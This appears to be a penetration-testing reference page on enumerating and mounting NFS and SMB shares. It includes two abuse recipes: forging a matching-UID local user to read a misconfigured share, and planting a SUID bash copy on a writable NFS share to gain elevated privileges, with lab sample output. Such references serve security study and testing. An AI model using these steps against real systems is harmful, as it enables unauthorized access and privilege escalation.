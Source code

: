 ```yaml
---
title: "Share Mount"
date: 2025-8-3
tags: ["NFS", "Mount", "SMB", "File System Mounting", "Enumeration", "Share", "Cifs", "File System Permissions Vulnerabilities", "Privilege Escalation", "uid"]
---
```


{{< tab set1 tab1 >}}NFS{{< /tab >}}
{{< tab set1 tab2 >}}SMB{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### List Shares

```console
showmount -e <TARGET>
```

```console {class="sample-code"}
$ showmount -e 10.10.11.191
Export list for 10.10.11.191:
/home/ross    *
/var/www/html *
```

#### Mount Share

```console
sudo mkdir /mnt/share
```

```console {class="sample-code"}
$ sudo mkdir /mnt/share
```

```console
sudo mount -t nfs <TARGET>:<SHARE> /mnt/share/
```

```console {class="sample-code"}
$ sudo mount -t nfs 10.10.11.191:/home/ross /mnt/share/

$ ls /mnt/share 
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  Videos
```

#### Unmount Share

```console
sudo umount /mnt/share/
```

```console {class="sample-code"}
$ sudo umount /mnt/share/
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Mount Share

```console
sudo mount -t cifs //<TARGET>/<SHARE> /mnt
```

```console
# Without creds
sudo mount -t cifs -o user=,password= //<TARGET>/<SHARE> /mnt
```

```console
# With creds
sudo mount -t cifs -o user='<USER>',pass='<PASSWORD>' //<TARGET>/<SHARE> /mnt
```

```console {class="sample-code"}
$ sudo mount -t cifs -o ro,user='localadmin',password='Secret123' //10.10.11.102/Shared /mnt

$ ls /mnt      
Documents  Software
```

#### Mount inside Windows

```console
# Mount
net use \\localhost\c$ /u:'<DOMAIN>\<USER>' '<PASSWORD>'
```

```console
# Check
dir \\localhost\c$\users\administrator\desktop
```

{{< /tabcontent >}}

---

### Abuse #1: Create Fake User to Read Misconfigured Share

```console
# Check all mounted drives
mount
```

```console {class="sample-code"}
$ mount     

---[SNIP]---
10.10.11.191:/home/ross on /mnt/share type nfs4 (rw,relatime,vers=4.2,rsize=262144,wsize=262144,namlen=255,hard,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=10.10.14.31,local_lock=none,addr=10.10.11.191)
```

```console
# Check how shares are mounted
cat /etc/exports
```

```console {class="sample-code"}
$ cat /etc/exports
/var/nfsshare *(rw,sync,root_squash,no_all_squash)
/opt *(rw,sync,root_squash,no_all_squash)
```

<br>

```console
+-----------------------------------------------------------------------------------------+
| root_squash  : running as root on local system will be treated as nobody user in target |
| no_all_squash: every other users permission will translate from local system to target  |
+-----------------------------------------------------------------------------------------+
```

<br>

```console
# Add dummy user
sudo adduser --uid <UID> dummy
```

```console {class="sample-code"}
$ sudo adduser --uid 1001 dummy
useradd warning: dummy's uid 1001 outside of the UID_MIN 1000 and UID_MAX 60000 range.
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for dummy
Enter the new value, or press ENTER for the default
        Full Name []: dummy
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] Y
```

```console
# Switch to dummy user
sudo su dummy -c bash
```

```console {class="sample-code"}
$ sudo su dummy
$ id
uid=1001(dummy) gid=1001(dummy) groups=1001(dummy)
```

---

### Abuse #2: Writable NFS Share to Privesc

#### 1. Make a '/bin/bash' Copy in Target Machine

```console
# Copy '/bin/bash' to writable NFS share
cp /bin/bash .
```

```console {class="sample-code"}
(remote) www-data@mail01:/opt/share$ cp /bin/bash .
```

#### 2. Create a Fake User

```console
# In local machine
sudo adduser --uid <UID> <USER>
```

```console {class="sample-code"}
$ sudo adduser --uid 1001 fakeuser
useradd warning: fakeuser's uid 1001 outside of the UID_MIN 1000 and UID_MAX 60000 range.
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for fakeuser
Enter the new value, or press ENTER for the default
        Full Name []: fakeuser
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] Y
```

#### 3. Get the 'bash' Copy

```console
# Mount share
sudo mount -t nfs <TARGET>:<SHARE> /mnt/share/
```

```console
# Switch to fakeuser
su fakeuser
```

```console
# Move 'bash' copy to a temp location
cp /mnt/share/bash /tmp/bash
```

#### 4. Move the 'bash' Copy Back to Target Machine

```console
# In target machine
rm bash
```

```console
# Upload the 'bash' copy owned by fakeuser
cp /tmp/bash /mnt/share
```

#### 5. Set SUID bit of the 'bash' Copy

```console
# In local machine
chmod u+s /mnt/share/bash
```

#### 6. Privesc

```console
# In target machine, check
ls -l
```

```console {class="sample-code"}
(remote) www-data@mail01:/opt/share$ ls -la
total 1380
drwxrwxrwx 2 nobody                 nogroup      4096 Aug  3 17:23 .
drwxr-xr-x 4 root                   root         4096 Jun 17  2023 ..
-rw-r--r-- 1 root                   root         6003 Jun 18  2023 backup.tar.gz
-rwsr-xr-x 1 peter.turner@example.com 902601108 1396520 Aug  3 17:23 bash
```

```console
# Privesc
./bash -p
```